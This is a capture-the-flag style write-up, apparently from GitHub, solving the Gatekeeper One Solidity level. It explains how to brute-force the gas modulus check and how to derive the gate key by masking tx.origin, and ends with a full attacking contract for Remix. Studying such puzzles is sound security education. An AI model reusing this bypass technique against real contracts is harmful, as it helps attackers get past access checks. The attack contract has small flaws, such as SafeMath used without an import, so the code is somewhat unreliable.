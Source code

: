Gate 2
Here we have to ensure that remaining gas is an integer multiple of 8191, running the loop below  is the best way I found online while researching on how to solve this level, 
```
 for (uint256 i = 0; i < 120; i++) {
      (bool result, bytes memory data) = address(gKeeperOne).call{gas:
          i + 150 + 8191*3}(abi.encodeWithSignature(("enter(bytes8)"),
      key
    ));
```
Cause using this method we are brute forcing the key rather than having to use trial ad error to match the mod condition
` require(gasleft() % 8191 == 0) `
Gate 3
We are using an 8-byte key, so suppose the key is ABCD where each letter is 2 bytes (16 bits).

CD == D so C: must be all zeros.
CD != ABCD so AB must not be all zeros.
CD == uint16(tx.origin): C is already zeros, and now we know that D will be the last 16-bits of tx.origin.
This means that the integer key, when converted into various byte sizes, need to fulfil the following properties:

0x11111111 == 0x1111, which is only possible if the value is masked by 0x0000FFFF
0x1111111100001111 != 0x00001111, which is only possible if you keep the preceding values, with the mask 0xFFFFFFFF0000FFFF
3. Calculate the key using the0xFFFFFFFF0000FFFF mask:
```
bytes8 key = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;
```
Alternatively, we can get our uint16(tx.origin); and then just set AB = 0x 0000 0001 to get \_gateKey = 0x 0000 0001 0000 XXXX, where XXXX is uint16(tx.origin)
Below is the Gatekeeper attacking code to use in remix
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Gatekeeper.sol';

contract AreYouTheKeyOwner{
    using SafeMath for uint256;
    bytes8 txOrigin16 = 0x5899BD5B5CE8072a; //last 16 digits of our account
    bytes8 key = txOrigin16 & 0xFFFFFFFF0000FFFF;
    GatekeeperOne public gKeeperOne;
    

    function setGatekeeperOne(address _addr) public {
    gKeeperOne = GatekeeperOne(_addr);
}

function AlowMeIn() public{
    for (uint256 i = 0; i < 120; i++) {
      (bool result, bytes memory data) = address(gKeeperOne).call{gas:
          i + 150 + 8191*3}(abi.encodeWithSignature(("enter(bytes8)"),
      key
    ));
      if(result)
        {
        break;
      }
    }
   }

}
```

